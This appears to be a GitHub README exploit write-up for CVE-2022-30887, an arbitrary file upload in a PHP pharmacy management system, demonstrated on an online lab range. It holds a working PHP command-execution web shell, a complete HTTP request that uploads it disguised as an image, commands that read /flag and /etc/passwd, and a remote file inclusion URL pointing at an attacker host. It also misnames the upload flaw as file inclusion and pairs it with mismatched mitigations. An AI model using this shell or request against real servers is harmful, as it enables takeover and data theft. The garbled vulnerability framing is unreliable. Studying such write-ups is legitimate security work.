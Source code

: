 # CVE-2022-30887 MPMS File Inclusion Attack

## Description

多语言药房管理系统 (MPMS) 是用 PHP 和 MySQL 开发的, 该软件的主要目的是在药房和客户之间提供一套接口，客户是该软件的主要用户。

该软件有助于为药房业务创建一个综合数据库，并根据到期、产品等各种参数提供各种报告。

该 CMS(Pharmacy Management System v1.0) 中的 `php_action/editProductImage.php` 存在任意文件上传漏洞(File Inclusion Attack)，进而导致任意代码执行(RCE)。

## What is a File Inclusion Attack

File Upload vulnerabilities are usually a vulnerability that allows a script to run. It works when we upload the file to the server and enter a command on the uploaded file. File upload vulnerabilities are divided into two types;

- LFI (Local File Inclusion)
- RFI (Remote File Inclusion)

### LFI (Local File Inclusion)

This vulnerability occurs when the local files on the server include the file retrieved from the user. values received from the user must be sterilized.

Example of LFI (Local File Inclusion) ;

```
<?php
if($_REQUEST['s'])
 {  
 system($_REQUEST['s']);
 } 
 else
  phpinfo();?>
```

### RFI (Remote File Inclusion)

This vulnerability works when the attacker upload malware from a remote server.

Example of RFI (Remote File Inclusion) ;

`www.victim_site.com/abc.php?test=http://www.attacker_site.com/attack_page`

## Explanation of exploit

1. 这里使用春秋云镜的靶场 https://yunjing.ichunqiu.com/cve/detail/748
2. 打开站点并用 Burp Suite 捕获请求，并将请求 Send to Repeater
  ![](images/CVE-2022-30887-1.png)
  ![](images/CVE-2022-30887-2.png)
3. 在 Repeater 中写入如下 PoC （注意修改Host）发送后查看 Response 有 Sucess 字样则为上次成功， 文件被上传到 `/assets/myimages/` 目录下
  ![](images/CVE-2022-30887-3.png)
4. 上传 shell.php 后在浏览器中即可执行任何命令，如获取 flag 为 `http://eci-2ze1l9hzv0tz04yrt7rl.cloudeci1.ichunqiu.com/assets/myimages/shell.php?s=cat%20/flag`
  ![](images/CVE-2022-30887-4.png)
5. 执行其他命令如 `cat /etc/passwd`
  ![](images/CVE-2022-30887-5.png)
  
## PoC
```
POST /php_action/editProductImage.php?id=1 HTTP/1.1
Host: eci-2zegbcou4c05rxuhfujv.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------208935235035266125502673738631
Content-Length: 556
Connection: close
Cookie: PHPSESSID=t1jo541l52f76t9upiu0pbqv0c
Upgrade-Insecure-Requests: 1

-----------------------------208935235035266125502673738631
Content-Disposition: form-data; name="old_image"


-----------------------------208935235035266125502673738631
Content-Disposition: form-data; name="productImage"; filename="shell.php"
Content-Type: image/jpeg

<?php
if($_REQUEST['s']) {
  system($_REQUEST['s']);
  } else phpinfo();
?>
</pre>
</body>
</html>
-----------------------------208935235035266125502673738631
Content-Disposition: form-data; name="btn"


-----------------------------208935235035266125502673738631--
```

## Mitigation
- ensure you only accept characters such as `a-Z0-9` and do not allow `..` or `/` or `%00` (null byte)
- Be ensure `allow_url_include flag` must be off
- acording to owasp 10 Remediation; "Application can maintain a *white list of files, that may be included by the page, and then use an identifier (for example the index number) to access to the selected file. Any request containing an invalid identifier has to be rejected, in this way there is no attack surface for malicious users to manipulate the path"

## Refer

- https://nvd.nist.gov/vuln/detail/CVE-2022-30887
- https://github.com/MuallimNaci/CVE-2022-30887
